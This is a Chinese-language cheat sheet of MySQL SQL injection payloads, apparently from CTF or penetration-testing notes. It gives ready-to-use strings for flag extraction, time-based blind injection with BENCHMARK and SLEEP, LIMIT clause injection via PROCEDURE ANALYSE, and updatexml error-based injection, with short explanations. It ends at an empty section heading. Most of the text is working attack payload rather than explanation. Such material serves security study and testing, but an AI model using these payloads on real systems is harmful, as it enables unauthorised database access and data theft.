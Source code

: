 读目录的exp为

```
id=1=2|@c:=(select(flag)from(flag)where(flag<0x30))union(select@c)
```

## 延时注入

```
/test/query.php?name=sadf' AND 7352=IF((ORD(MID((SELECT IFNULL(CAST(KeyIsMe AS CHAR),0x20) FROM example.__key__ ORDER BY ID LIMIT 0,1),18,1))>50),BENCHMARK(1000000,MD5(0x4b654d45)),7352)
```

```
/test/query.php?name=sadf' AND 7352=IF((ORD(MID((SELECT IFNULL(CAST(KeyIsMe AS CHAR),0x20) FROM example.__key__ ORDER BY ID LIMIT 0,1),18,1))>50),SLEEP(5),7352)
```

## limit 注入
MySQL 5.x 到 5.6.6

```
SELECT field FROM user WHERE id >0 ORDER BY id LIMIT 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1); 
```

如果不支持报错注入的话，还可以基于时间注入：

```
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

直接使用sleep不行，需要用BENCHMARK代替。 

## updatexml 报错注入

如果测试的时候有提示出错信息，可以考虑使用报错注入

```
show coulumns 出错:Table 'inject_3333.article_test'' doesn't exist
```

使用的语句

```
http://www.xxx.com/a.php?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```
0x7e 是 ~。因为 UPDATEXML 第二个参数需要 Xpath 格式的字符串，如果不符合要求，会报错，错误大概会是：

```
ERROR 1105 (HY000): XPATH syntax error: ’:root@localhost’
```

这里 updatexml 里面第2个参数，不能使用 group_concat，因为 group_concat 是针对 select group_concat(column_name) 的

一些例子

```
# 遇到 show columns 后面要用 where 连接，不能用 and 
show COLUMNS FROM test_db.users where updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```
## show columns 注入
